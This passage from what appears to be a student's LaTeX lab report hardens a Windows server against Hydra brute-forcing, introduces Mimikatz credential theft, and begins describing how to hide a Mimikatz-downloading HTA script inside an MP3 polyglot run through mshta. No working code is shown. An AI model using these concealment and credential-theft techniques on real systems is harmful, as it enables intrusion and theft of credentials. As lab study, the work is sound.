	
\includegraphics[scale=0.22]{images/tlshandshake.png}
	\centering
	\caption{Viewing the Handshake and Termination of the \texttt{Connection}}
\end{figure}\abc
The main difference isn't just the authentication mechanisms (\texttt{CSPP}/\texttt{TLS} vs. \texttt{GSS-API}/\texttt{NTLMSSP}). A crucial distinction is how encryption is handled. \texttt{RDP} can use \texttt{TLS} to encrypt all traffic, including application data, whereas \texttt{SMB} uses \texttt{GSS-API} to negotiate authentication (often using Kerberos or NTLM) and can encrypt \texttt{SMB} packets directly, especially in newer versions (\texttt{SMB} 3.0+). When \texttt{RDP} uses \texttt{TLS}, it creates a \texttt{TLS} tunnel. \texttt{SMB} encryption is integrated within the \texttt{SMB} protocol itself. \cite{microsoft_corporation_server_2024, noauthor_remote_2024}\newpage
\subsection{Hardening Windows Against Brute-Force Attacks}
Now how do we harden our sever to proect against brute forcing besides enforcing password policies to require complex passwords?
\subsubsection{Using EvLWatcher for Rate Limiting}
First, to set up rate limiting, I found a \texttt{fail2ban}-style tool for Windows that comes preconfigured. After running the setup executable, no additional configuration is necessary, and it can essentially be left to run in the background. Figure 26 shows the IP address of the attacker being temporarily banned after initiating a brute-force attack using Hydra.\footnote{The banned IP address is \texttt{192.168.56.1} because the attacker is on a different network. The server sees the forwarded request through the host of the host-only network, which results in a different apparent source IP.}\cite{noauthor_devnullievlwatcher_nodate}
\begin{figure}[h]
	
\includegraphics[scale=0.15]{images/evlwatcherf.png}
	\centering
	\caption{Observing The Attackers IP-Address getting temporarily banned}
\end{figure}\abc
\subsubsection{Disabling NTLM Authentication}
\texttt{NTLM} is a legacy authentication protocol that dates back to Windows NT. Although Microsoft introduced a more secure alternative called \texttt{Kerberos} in 1989, \texttt{NTLM} is still used in some domain networks and remains enabled for backward compatibility. One of \texttt{NTLM}'s major flaws is that it stores password hashes in plaintext in the memory of its servers, which can be extracted using pass-the-hash tools such as Mimikatz. \cite{disable-ntlm, kerberos, mimikatz-ntlm} \abc
It can be disabled via the Group Policy Editor under Computer Configuration → Windows Settings → Security Settings → Security Options. Then, by double-clicking on \texttt{Network security: Restrict NTLM: Incoming NTLM traffic}, selecting Deny all accounts from the dropdown menu, and clicking Ok, NTLM can be effectively blocFed, as annotated in Figure 27.
\begin{figure}[h]
	
\includegraphics[scale=0.18]{images/disablentlm.png}
	\centering
	\caption{Disabeling \texttt{NTLM} authentication for all accounts}
\end{figure}\newpage \abc
If I now unblock my IP and rerun Hydra, I receive a \texttt{STATUS\_NOT\_SUPPORTED} error in the \texttt{NT Status} field of the \texttt{SMB2 Session Setup Response} header, as shown in Figure 28. This effectively prevents Hydra from being used on this target, as it is primarily designed for \texttt{NTLM} authentication with \texttt{SMB2}. Due to the increased complexity of Kerberos-based authentication, Hydra does not support it out of the box. However, an alternative approach could involve configuring \texttt{smbclient} to use Kerberos and building a simple script around the configured client to perform authentication attempts.
\begin{figure}[h]
	
\includegraphics[scale=0.22]{images/nontlm.png}
	\centering
	\caption{Hydra failing without being abel to use \texttt{NTLM}}
\end{figure}\abc
\subsubsection{Configuring Login Timeout Settings}
To slow down \texttt{RDP} brute-forcing, account lockout can be configured in the Local Security Policy editor under \texttt{Account Lockout Policy}. I set the account lockout threshold to 10 invalid logon attempts and the account lockout duration to 30 minutes. These values can be adjusted as needed. My configuration is shown in Figure 29. \cite{jacobtwc_how_2022}
\begin{figure}[h]
	
\includegraphics[scale=0.38]{images/lockout.png}
	\centering
	\caption{Showing the lockout policy}
\end{figure}
\newpage
\subsection{Mimikatz: An Introduction}
\subsubsection{What Is Mimikatz?}
Mimikatz is a post-exploitation tool designed to extract credential information. It was originally developed as a proof-of-concept to demonstrate the vulnerabilities in Microsoft authentication protocols such as \texttt{NTLM}. \cite{a_cyberkid_detailed_2024}
\subsubsection{What Can Mimikatz Do?}
The main features of Mimikatz include extracting credentials from memory or disk-based password stores. This includes plaintext passwords, PINs, \texttt{Kerberos} tickets, and \texttt{NTLM} password hashes.\abc
Mimikatz achieves this through a variety of techniques, such as Pass-the-Hash, which allows attackers to use captured \texttt{NTLM} hashes to create new authenticated sessions on the network—without needing to know the user’s actual password. \cite{pass-the-hash, a_cyberkid_detailed_2024}
\texttt{Pass-the-ticket} is a technique where normal system access controls are bypassed by stealing a valid \texttt{Kerberos} ticket. These tickets—either a Service Ticket (TGS) or a Ticket Granting Ticket (TGT)—can be used to impersonate users and access resources without needing their passwords.\abc
Depending on the level of access, a service ticket allows access to a specific resource, while a TGT can be used to request additional service tickets from the Ticket Granting Service (TGS) to access any resource the user has privileges for.\abc
There are two notable types of forged Kerberos tickets: Silver and Golden tickets. \cite{a_cyberkid_detailed_2024, pass-the-ticket}
\begin{itemize}
    \item A Silver Ticket is created for services that use Kerberos as their authentication mechanism and allows access to a specific service (like SharePoint or MSSQL).
    \item A Golden Ticket is more powerful—it’s forged using the NTLM hash of the Key Distribution Service account (\texttt{KRBTGT}) and allows an attacker to generate valid TGTs for any user in the domain, effectively giving them unrestricted access to the entire Active Directory environment.
\end{itemize}
\subsubsection{How to Use Mimikatz}
There are multiple ways to invoke Mimikatz on a target system. The simplest method is to download a compiled release from the official GitHub repository. However, there are also pre-built PowerShell scripts and commands that streamline its execution, such as \texttt{Invoke-Mimikatz} from the PowerSploit framework, or lightweight wrappers like those found in the “Quick Mimikatz” GitHub gists. \cite{noauthor_powershellmafiapowersploit_2025, quick-mimikatz}\abc
More sophisticated methods exist as well—for example, sideloading a malicious DLL and invoking Mimikatz from within it. In such scenarios, the payload can be AES-encrypted and only decrypted at runtime by the attacker, making detection and analysis significantly more difficult. The possibilities for invoking Mimikatz in obscure, evasive ways are nearly endless.
\newpage
\subsection{Running Mimikatz}
\subsubsection{Using Polyglot Files to Conceal Mimikatz}
To run Mimikatz on the target system, I wanted to try a unique or more creative method rather than simply downloading and executing the Mimikatz binary directly. Inspired by a video from security professional and YouTuber John Hammond, where he analyzes a malware sample hidden inside an MP3 file that uses \texttt{mshta.exe} to execute a payload, I explored a similar idea. I was also influenced by a scam technique described in both an article and a video by ThioJoe, where malicious websites simulate a CAPTCHA process and trick users into copying and pasting a dangerous command into the Run dialog via JavaScript. These methods caught my attention due to their cleverness and stealth, making them ideal for experimenting with alternative ways to trigger payloads. \cite{john_hammond_this_2025, mshta-phising, theo-joe-new-scams}\abc
\texttt{mshta.exe} is a native Windows binary that’s used to run HTA files, which are a way to build \texttt{HTML} applications in Windows. These apps can use \texttt{VBScript} or \texttt{JScript}—which is basically an older version of JavaScript. Since it’s based on web tech, you can build applications using normal HTML tags and scripts, but they don’t need a browser to run—just \texttt{mshta.exe} as the runtime. The thing is, this technology is super outdated and no one really builds apps like this anymore. In fact, it’s so irrelevant now that I couldn’t even find any official Microsoft documentation about it—pretty much every search result just talks about how it’s used in malware. \cite{hta-apps}\abc
Polyglot files are files hidden within other files. For example, I used an MP3 file in which I embedded the plain text of an HTA script that downloads Mimikatz to a directory of my choice. The MP3 file appears completely normal and can even be played. However, if the MP3 file is executed using \texttt{mshta}, it skips over all the parts that are not valid HTA code and executes only the intended script. This technique is perfect for embedding malicious code. \cite{john_hammond_this_2025, polyglot-files}\abc
Figure 30 shows the payload embedded within the binary.
\begin{figure}[h]
